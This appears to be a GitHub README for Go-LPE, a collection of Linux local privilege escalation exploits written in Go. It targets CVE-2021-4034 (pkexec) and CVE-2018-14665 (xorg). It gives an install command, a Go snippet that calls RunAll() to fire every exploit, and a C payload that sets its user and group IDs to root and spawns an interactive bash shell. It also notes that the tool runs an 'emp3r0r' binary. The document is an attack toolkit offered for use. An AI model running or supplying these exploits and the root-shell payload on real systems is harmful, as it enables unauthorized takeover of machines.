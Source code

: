 # Go-LPE

A collection of LPE exploits written in Go

![image](https://user-images.githubusercontent.com/10167884/151522601-dc61ba4b-1144-4c57-a548-f9bddd17b96e.png)

## Exploits

| CVE        | Description                                                         | Link                                          |
| ---------- | ------------------------------------------------------------------- | --------------------------------------------- |
| 2021-4034  | pkexec exploit rewritten in pure Go that is based on blasty's poc   | https://haxx.in/files/blasty-vs-pkexec.c      |
| 2018-14665 | xorg (a demo) that works in environments with certain xorg versions | https://www.cvedetails.com/cve/CVE-2018-14665 |

## Get Started

```bash
go get -u -v github.com/jm33-m0/go-lpe
```

```go
package main

import (
    golpe "github.com/jm33-m0/go-lpe"
)

func main() {
    golpe.RunAll()
}
```

```c
// go:build ignore
//  +build ignore
// musl-gcc -static -s -o emp3r0r demo.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  puts("go-lpe has successfully got root!");
  setuid(0);
  seteuid(0);
  setgid(0);
  setegid(0);
  system("/bin/bash -i");
  return 0;
}
```

- Note that this tool tries to execute `./emp3r0r -replace`
- If you want it to execute other stuff, just write a wrapper
